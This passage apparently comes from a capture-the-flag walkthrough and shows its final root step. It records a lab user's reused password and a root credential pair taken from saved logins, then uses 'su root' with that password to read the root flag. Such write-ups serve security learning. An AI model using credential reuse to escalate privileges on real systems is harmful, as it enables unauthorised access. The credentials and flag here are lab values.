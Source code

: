    __NOTE(S)__:
   - The user, `ayush`, kept reusing the password `jiujitsu`
   - Credentials for a user, `root`, is in the `Saved Logins...`
     - Credential pair -- `root:Thiv8wrej~`
     - Maybe `root` is also reusing credentials

5. While inside `ayush` shell:
   ```console
   su root
   # Password: Thiv8wrej~

   id
   # uid=0(root) gid=0(root) groups=0(root)

   cat /root/root.txt
   # 4eca7e09e3520e020884563cfbabbc70
   ```
